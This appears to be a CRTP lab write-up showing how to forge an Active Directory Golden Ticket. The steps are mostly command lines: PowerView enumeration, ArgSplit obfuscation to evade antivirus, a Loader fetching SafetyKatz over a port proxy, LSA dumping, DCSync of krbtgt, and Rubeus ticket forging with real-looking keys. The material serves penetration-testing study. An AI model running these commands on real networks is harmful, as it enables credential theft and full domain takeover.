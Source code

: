 ```yaml
---
title: Active Directory (AD) | Exploiting Domain Admin (Golden Ticket)
date: 2024-07-02 00:00:00 +0800
categories: [Cert, CRTP]
tags: [Cert,Active Directory]     ## TAG names should always be lowercase
render_with_liquid: false
description: Designed to provide a comprehensive guide to Active Directory (AD) attack techniques
---
```


## **Step 1: Identifying Machines with Domain Admin Sessions**
To begin our exploitation of domain admin privileges, we first need to identify machines where domain admin accounts are actively logged in. This step is crucial because it allows us to target these machines for further actions, such as stealing tokens or credentials. For this task, we use PowerView, a powerful PowerShell tool that helps in enumerating Active Directory environments. By running the Find-DomainUserLocation command, we can query the Domain Controller to find out which computers have active domain admin sessions. In our example, this command reveals that there is a domain admin session on the dcorp-mgmt server, making it a prime target for our next steps.

```bash
Find-DomainUserLocation
```
![Result](/img/crtp/result6.png){: width="972" height="589" }
_There is a domain admin session on dcorp-mgmt server_

## **Step 2: Extracting Domain Controller Hashes**
In this step, we aim to extract hashes from the domain controller and create a Golden Ticket using Rubeus. A Golden Ticket is a forged Kerberos Ticket Granting Ticket (TGT) that allows an attacker to impersonate any user within the domain, effectively granting near-unlimited access to network resources.

### Start a Process with Domain Admin Privileges
To start, we use an elevated command prompt (Run as administrator) and utilize ArgSplit.bat to encode the asktgt command. This command is part of the Kerberos authentication process, where it requests a TGT for the domain admin account. The TGT is crucial because it allows us to request service tickets for accessing various network resources.

```bash
C:\Windows\system32>C:\AD\Tools\ArgSplit.bat
set "z=t"
set "y=g"
set "x=t"
set "w=k"
set "v=s"
set "u=a"
set "Pwn=%u%%v%%w%%x%%y%%z%"
```

We verify the encoded string to ensure it's correct:
```bash
C:\Windows\system32>echo %Pwn%
asktgt
```

Next, we run Rubeus with the asktgt command using Loader.exe. This step initiates the process of obtaining a TGT for the domain admin account.
```bash
C:\Windows\System32>C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

### Copy Loader.exe to the Domain Controller
After acquiring the TGT, we need to copy Loader.exe to the domain controller (dcorp-dc). We use the xcopy command to transfer the file to ensure it's available for our use on the target system.
```bash
C:\Windows\system32>echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe /Y
```

### Use WinRS to Access the Domain Controller
With Loader.exe on the domain controller, we open a remote session to the domain controller using WinRS. This tool allows us to execute commands remotely over the Windows Remote Management (WinRM) service.
```bash
winrs -r:dcorp-dc cmd
```

### Set Up Port Forwarding to download the SafetyKatz
On the domain controller, we set up port forwarding with the netsh interface portproxy command. This step facilitates the download of necessary tools, such as SafetyKatz, by redirecting network traffic to the appropriate address and port.
```bash
C:\Users\svcadmin>netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.x
```

### Encode and Execute lsadump::lsa 
Back on the student VM, we use ArgSplit.bat to encode the lsadump::lsa command. This command dumps Local Security Authority (LSA) secrets from memory, including password hashes.
```bash
C:\Windows\system32>C:\AD\Tools\ArgSplit.bat
[!] Argument Limit: 180 characters
[+] Enter a string: lsadump::lsa
set "z=h"
set "y=c"
```

We run the generated commands in the WinRS session on the domain controller to execute SafetyKatz and perform the LSA dump:
```bash
set "Pwn=%o%%p%%q%%r%%s%%t%%u%%v%%w%%x%%y%%z%"
C:\Users\svcadmin>C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "%Pwn% /patch" "exit"
```

The output of lsadump::lsa reveals the NTLM hashes and other credentials stored in the LSA:
```bash
mimikatz # lsadump::lsa /patch
```

### Perform a DCSync Attack
To obtain the NTLM hash and AES keys of the krbtgt account, we perform a DCSync attack. This attack simulates the behavior of a domain controller and requests replication of credentials, allowing us to dump password hashes.
```bash
C:\Windows\system32>echo %Pwn%
lsadump::dcsync 

C:\Windows\system32>C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "%Pwn% /user:dcorp\krbtgt" "exit"
```

## **Step 3: Generate and Inject a Golden Tickets**


With the krbtgt hash in hand, we generate a Golden Ticket. A Golden Ticket is a powerful tool in an attacker's arsenal, as it allows for the creation of a forged TGT that can impersonate any user within the domain, granting near-unlimited access. We use ArgSplit.bat to encode the golden command:
```bash
C:\AD\Tools>echo %Pwn%
golden
```

Using Rubeus, we create the Golden Ticket with the necessary parameters, including the krbtgt hash and domain information:
```bash
C:\AD\Tools>C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /aes256:154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848 /sid:S-1-5-21-719815819-3726368948 /ldap /user:Administrator /printcmd
```

Finally, we inject the Golden Ticket into the current process to gain persistent domain admin access. This is confirmed by checking the username and computer name in the remote session, ensuring we have full administrative control over the domain controller:
```bash
C:\AD\Tools>C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /aes256:154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848 /user:Administrator /id:500 /pgid:513 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948 /pwdlastset:"11/11/2022 6:34:22 AM" /minpassage:1 /logoncount:35 /netbios:dcorp /groups:544,512,520,513 /dc:DCORP-DC.dollarcorp.moneycorp.local /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD /ptt
```

Confirm the Golden Ticket injection:
```bash
[+] Ticket successfully imported!
C:\AD\Tools>winrs -r:dcorp-dc cmd
Microsoft Windows [Version 10.0.20348.2227]
(c) Microsoft Corporation. All rights reserved.
C:\Users\Administrator>set username
USERNAME=Administrator
C:\Users\Administrator>set computername
COMPUTERNAME=DCORP-DC
```


